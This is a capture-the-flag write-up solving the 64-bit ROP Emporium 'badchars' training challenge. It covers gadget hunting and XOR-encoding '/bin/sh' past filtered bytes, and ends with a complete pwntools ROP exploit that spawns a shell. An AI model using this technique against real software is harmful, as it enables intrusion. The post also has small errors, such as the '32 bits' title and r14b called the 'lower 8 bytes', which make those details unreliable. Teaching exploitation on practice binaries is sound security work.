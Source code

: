```yaml
---
layout: post
title: ROP Emporium Challenge 4 - Badchars (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack*
<!--more-->

# bacdchars

Link: https://ropemporium.com/challenge/badchars.html


--------------------------


## 1. Calculating RIP overwrite offset

First we check if the offset is different than in the previous challenges. It seems it is still 40, with 42 characters we see two "41" in RIP registry:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_1.jpg)



## 2. Studying the bad characters

Then we must find the hexadecimal values of the bad characters the binary tells us that exist in it:

- b - 62
- i - 69
- c - 63
- / - 2f
- <space> - 20
- f - 66
- n - 6e
- s - 73


**bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]**



## 3. Studying the binary: write-what-where gadgets and XOR operations

Then we find a write-what-where address:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_2.jpg)

We have:

- 0x0000000000400b35 : mov dword ptr [rbp], esp ; ret

- 0x0000000000400b34 : mov qword ptr [r13], r12 ; ret

We can control R12 and R13 with:

- 0x0000000000400b3b : pop r12 ; pop r13 ; ret

- 0x0000000000400b3d : pop r13 ; ret

We can control RBP and RSP with:

- 0x00000000004007f0 : pop rbp ; ret

- 0x0000000000400b3c : pop rsp ; pop r13 ; ret

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_3.jpg)

Then we will look for the start address of .data, which is writable:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_4.jpg)

We will use R12 and R13 to write "/bin/sh" in memory, so:

- **writewhatwhere = 0x400b34**

- **pop_r12_r13_ret = 0x400b3b**

- **writable_memory = 0x601070** (0x601070 was giving problems)

```
mov [r13], r12

mov [0x601070], "/bin//sh"
```

We will use RBP and RSP:

```
mov [rbp], esp

mov [0x601070], "/bin"

mov [0x601074], "//sh"
```

The problem are the bad chars. We will try to use XOR instructions to change their values.

- 0x0000000000400855 : or byte ptr [rax], r12b ; add byte ptr [rcx], al ; ret -> **RAX, R12**

- 0x0000000000400b30 : xor byte ptr [r15], r14b ; ret -> **R15, R14**

- 0x0000000000400b31 : xor byte ptr [rdi], dh ; ret -> **RDI, RDX**

- 0x00000000004006f2 : xor cl, byte ptr [rcx] ; and byte ptr [rax], al ; push 2 ; jmp 0x4006c9 -> **RCX, RCX**



## 4. Creating the exploit

The idea is that we can make a XOR operation between the register whose value the first register is pointing, so it will point to the writable address in memory where we write our payload (in this case encoded so it does not contain any bad characters) and the value of the second register, and the result is stored in the register pointed in the first register.

We can control R14 and R15 with typical "pop; ret" gadgets, but there are not for RAX, RCX nor RDX.  

- 0x0000000000400b40 : pop r14 ; pop r15 ; ret

So the idea is:

```
xor [address of writable memory], encoded_payload

xor byte ptr [r15], r14b
```


For reference, the register *r14b* is the lower 8 bytes of the register r14 ([source](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture)):

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_5.jpg)

Then, we can send a encoded payload with the write-what-where gadget (without bad characters) and use the XOR gadget to "decode" the payload and get the original string (in this case, "/bin//sh").


To test this, first I sent 8 "a" characters and the error generated showed these characters:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_6.jpg)

Then, the first character will be XORed with the value 0x2:

```
rop += p64(pop_r14_r15_ret) + p64(0x2) + p64(writable_memory)
rop += p64(xor_r15_r14)
```

As we can see, it turns to "c" ("a" is 0x61 and "c" is 0x63, as 0x61 xor 0x2 = 0x63, this seems right):


![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_7.jpg)


We will send a 8-characters command:

```
//bin/sh -> hs/nib// -> 68732f6e69622f2f (Reversed and in hexadecimal)

68732f6e69622f2f xor 1212121212121212 = 7a613d7c7b703d3d

7a613d7c7b703d3d xor 1212121212121212 = 68732f6e69622f2f
```

The string "0x68732f6e69622f2f" does not contain any bad character, so we can send it and xor each byte with 0x12.

You can use these two website:

- XOR online - http://xor.pw/#

- ASCII to HEX - https://www.rapidtables.com/convert/number/ascii-to-hex.html


There are problems, in this case when we write in the address 0x601070 the 4th character of the string always gets an unexpected value:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_8.jpg)

When we change the value of the writable address to 0x601077 or 0x601077, we get a shell, but there are problems when we list files. Also, it does not work all the times:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/4_badchars/images/Screenshot_9.jpg)



## 5. Final exploit

The final exploit code is:

```
from pwn import *
import sys

context(arch='amd64', os='linux')
binary_name = 'badchars'
p = process('./'+binary_name)
elf =  ELF(binary_name)
rop =  ROP(elf)


system = elf.sym["system"] 
pop_rdi =         (rop.find_gadget(['pop rdi', 'ret']))[0]
writewhatwhere  = 0x400b34
pop_r12_r13_ret = 0x400b3b

# .data start address
writable_memory = 0x601077

command = 0x7a613d7c7b703d3d  #string_to_hex("//bin/sh",byte_)
# 0x0000000000400b40 : pop r14 ; pop r15 ; ret
pop_r14_r15_ret = 0x400b40
# 0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
xor_r15_r14 = 0x400b30

log.info("System address (.plt) - " + hex(system))
log.info("pop r12, pop r13, ret - " + hex(pop_r12_r13_ret))
log.info("pop r12, pop r13, ret - " + hex(pop_r14_r15_ret))
log.info("pop rdi, ret          - " + hex(pop_rdi))
log.info("Write-what-where      - " + hex(writewhatwhere))
log.info(".data section start   - " + hex(writable_memory))

rop =  "A"*40
rop += p64(pop_r12_r13_ret) + p64(command) + p64(writable_memory)
rop += p64(writewhatwhere)

for i in range(0,8):
	rop += p64(pop_r14_r15_ret) + p64(0x12) + p64(writable_memory+i)
	rop += p64(xor_r15_r14)

rop += p64(pop_rdi) + p64(writable_memory) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```
